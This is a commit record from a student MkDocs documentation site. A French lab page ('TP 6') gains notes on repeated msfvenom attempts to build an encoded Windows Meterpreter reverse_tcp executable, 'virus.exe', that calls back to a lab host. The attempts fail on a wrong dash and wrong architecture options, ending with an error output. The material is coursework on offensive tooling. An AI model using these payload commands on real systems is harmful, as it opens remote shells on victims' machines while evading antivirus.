

Before and after one commit to FlagHunter01/school, an MkDocs documentation site: the page built from docs/cfa/projet/index.md, in a window 1280 px wide and 1400 px high, scrolled down 19292 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; comment, search, counter and statistics services are not loaded; before the commit the page ends 20031 px from its top, so only the background shows below that.

Commit message:
Suite rédact TP 6

````diff
--- a/docs/cfa/projet/index.md
+++ b/docs/cfa/projet/index.md
@@ -930,3 +930,35 @@
 ```
 msfvenom –p windows/Meterpreter/reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 LHOST=192.168.10.30 LPORT=4444 -f exe > virus.exe
 ```
+
+!!! failure "msfvenom demande de spécifier une architecture"
+
+```
+msfvenom --help
+```
+```
+msfvenom -a cmd –p windows/Meterpreter/reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 LHOST=192.168.10.30 LPORT=4444 -f exe > virus.exe
+```
+
+!!! failure "On doit également spécifier une plateforme"
+
+```
+msfvenom --list platforms
+```
+```
+msfvenom --platform windows -a cmd –p windows/Meterpreter/reverse_tcp -e x86/shikata_ga_nai -b '\x00' -i 3 LHOST=192.168.10.30 LPORT=4444 -f exe > virus.exe
+```
+```
+Attempting to read payload from STDIN...
+Found 1 compatible encoders
+Attempting to encode payload with 3 iterations of x86/shikata_ga_nai
+x86/shikata_ga_nai succeeded with size 27 (iteration=0)
+x86/shikata_ga_nai succeeded with size 54 (iteration=1)
+x86/shikata_ga_nai succeeded with size 81 (iteration=2)
+x86/shikata_ga_nai chosen with final size 81
+Payload size: 81 bytes
+Error: The payload could not be generated, check options
+```
+
+!!! failure "Toujours pas la bonne commande"
+    On regarde la [doc officielle](https://docs.metasploit.com/docs/using-metasploit/basics/how-to-use-msfvenom.html) pour affiner les options.
````
